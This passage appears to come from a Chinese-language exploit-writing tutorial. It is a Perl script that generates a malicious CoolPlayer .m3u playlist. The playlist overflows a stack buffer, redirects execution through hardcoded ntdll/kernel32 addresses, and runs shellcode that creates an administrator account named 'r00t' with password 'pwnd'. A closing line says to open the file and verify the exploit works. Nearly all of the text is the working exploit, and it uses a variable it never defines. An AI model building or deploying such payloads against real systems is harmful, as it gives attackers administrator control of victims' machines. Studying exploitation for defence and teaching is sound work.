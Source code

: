     # Based on original POC exploit: http://www.exploit-db.com/exploits/4839/
    # Details: Demo of jumping to shellcode via pop/ret sequence to stack address
    ###########################################################################################
     
    my $buffsize = 10000; # set consistent buffer size
    my $junk = "\x4A" x 260; # simulate unusable address containing junk with 'J'
    my $eip = pack('V',0x7C924961); # EIP overwrite w/ pop edi pop esi pop ebp from ntdll
    my $junk2 = "\x4A" x 12; # simulate unusable address containing junk with 'J'
    my $usable_address = pack('V',0x7C86467B); # jmp esp kernel32.dll
    my $nops = "\x90" x 20;
     
    # XP SP3 add admin user shellcode -- 107 bytes
    # mod'd from original by Anastasios Monachos http://www.exploit-db.com/exploits/15202/
    my $shell = "\xeb\x16\x5b\x31\xc0\x50\x53\xbb\xad\x23" .
    "\x86\x7c\xff\xd3\x31\xc0\x50\xbb\xfa\xca" .
    "\x81\x7c\xff\xd3\xe8\xe5\xff\xff\xff\x63" .
    "\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20" .
    "\x6e\x65\x74\x20\x75\x73\x65\x72\x20" .
    "\x72\x30\x30\x74\x20" . # user: r00t
    "\x70\x77\x6e\x64" . # pass: pwnd
    "\x20\x2f\x61\x64\x64\x20\x26\x26\x20\x6e" .
    "\x65\x74\x20\x6c\x6f\x63\x61\x6c\x67\x72" .
    "\x6f\x75\x70\x20\x61\x64\x6d\x69\x6e\x69" .
    "\x73\x74\x72\x61\x74\x6f\x72\x73\x20".
    "\x72\x30\x30\x74" .
    "\x20\x2f\x61\x64\x64\x00";
     
    my $sploit = $jmp.$junk.$eip.$junk2.$usable_address.$nops.$shell; # build sploit portion of buffer
    my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder of buffer
    my $buffer = $sploit.$fill; # build final buffer
     
    # write the exploit buffer to file
    my $file = "coolplayer.m3u";
    open(FILE, "&gt;$file");
    print FILE $buffer;
    close(FILE);
    print "Exploit file [" . $file . "] created\n";
    print "Buffer size: " . length($buffer) . "\n";

让我们执行生成的m3u文件（从C：\）并验证exploit是否有效。
